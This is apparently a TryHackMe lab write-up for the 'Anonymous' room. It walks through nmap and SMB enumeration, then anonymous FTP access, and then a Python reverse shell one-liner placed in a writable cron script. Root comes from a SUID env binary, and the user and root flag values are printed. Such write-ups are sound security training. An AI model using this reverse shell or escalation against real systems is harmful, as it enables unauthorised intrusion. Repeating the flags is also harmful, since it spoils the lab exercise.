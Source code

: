 ```yaml
---
title: "Anonymous - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.png
excerpt: "Writeup for the Anonymous on TryHackMe"
---
```


[TryHackMe | Anonymous](https://tryhackme.com/room/anonymous)

Try to get the two flags! Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners.
Acquiring both flags will require some basic knowledge of Linux and
privilege escalation methods.

<div className="Image__Medium">
  <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a6/Anonymous_emblem.svg/1024px-Anonymous_emblem.svg.png" alt="blog_image" />
</div>

For more information on Linux, check out [Learn Linux](https://tryhackme.com/room/zthlinux)

---

### #1 Enumerate the machine. How many ports are open?

```bash
➜  TryHackMe nmap -A -vv 10.10.131.140
```

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:

22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #2 What service is running on port 21?

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:
```

```bash
ftp
```

### #3 What service is running on ports 139 and 445?

```bash
smb
```

### #4 There's a share on the user's computer. What's it called?

<div className="Image__Medium">
  <img src="https://imgur.com/4X6K5lM.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/5Aznrzp.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe smbclient -L  10.10.131.140
Enter WORKGROUP\kali password:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

```bash
pics
```

### #5 user.txt

Let's go to the ftp using the anonymous login

```bash
➜  TryHackMe ftp 10.10.215.153
Connected to 10.10.215.153.
220 NamelessOne FTP Server!
Name (10.10.215.153:kali): anonymous
331 Please specify the password.
Password: no password there
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 May 14 14:52 clean.sh
-rw-rw-r--    1 1000     1000           86 May 17 22:55 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
```

Let's put a reverse shell in the ftp shall we ? c:

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

You can use whatever you want I will use the python reverse shell.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.228",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Rename the payload 'clean.sh' and put it in the ftp

```bash
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
226 bytes sent in 0.00 secs (2.3427 MB/s)
```

Now let's wait the ftp server to execute the payload

```bash
➜  TryHackMe nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.215.153] 37426
/bin/sh: 0: cant access tty; job control turned off
$ ls
pics
user.txt
$ cat user.txt
90d6f992585815ff991e68748c414740
```

### #6 root.txt

```bash
$ find / -perm -u=s -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
$ ./env /bin/sh -p
/bin/sh: 4: ./env: not found
$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
$ id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

[All the suid shell on GTFOBins | GTFOBins](https://gtfobins.github.io/#+suid)

```bash
$ cd /root/
cd /root/
$ ls
ls
root.txt
$ cat root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
